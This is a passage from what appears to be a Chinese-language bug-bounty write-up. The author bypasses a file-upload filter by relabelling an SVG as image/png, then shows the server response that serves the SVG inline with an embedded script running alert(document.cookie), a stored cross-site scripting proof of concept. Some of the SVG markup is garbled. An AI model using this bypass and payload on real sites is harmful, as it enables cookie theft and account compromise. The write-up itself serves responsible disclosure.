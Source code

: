 然后我得出结论，应用程序从**上传文件的扩展名**中验证了*内容类型*:如果我上传一个文件名为`test.txt`的文件，那么 ***文件类型*** 参数值将是*上传请求*中的`text/plain`。于是我上传了`xss.svg`文件，并将 ***文件类型*** 参数值从`image/svg+xml` ( *不允许*)改为`image/png` ( *允许*)，文件上传成功

![](img/9db07c021c3cbd8e26de151182622a7f.png)

上传文件的 Url

```
HTTP/2 200 OK
**Content-Type: image/svg+xml**
Content-Length: 416
Date: Mon, 27 Dec 2021 05:14:36 GMT
Last-Modified: Wed, 01 Sep 2021 04:52:51 GMT
**Content-Disposition: inline; filename="xss2.svg"**
Accept-Ranges: bytes
Server: AmazonS3<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "[http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd](http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd)">
<svg version="1.1" baseProfile="full" ae nr" href="http://www.w3.org/2000/svg" rel="noopener ugc nofollow" target="_blank">http://www.w3.org/2000/svg" width="240px" height="240px">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.cookie);
   </script>
</svg>
```

做了一个新的报告，他们验证了旁路，并奖励了我(金额与之前的相同)。

而且这次他们要求复试:)

![](img/998e6a85f66cb39ac9036565cc959dd5.png)
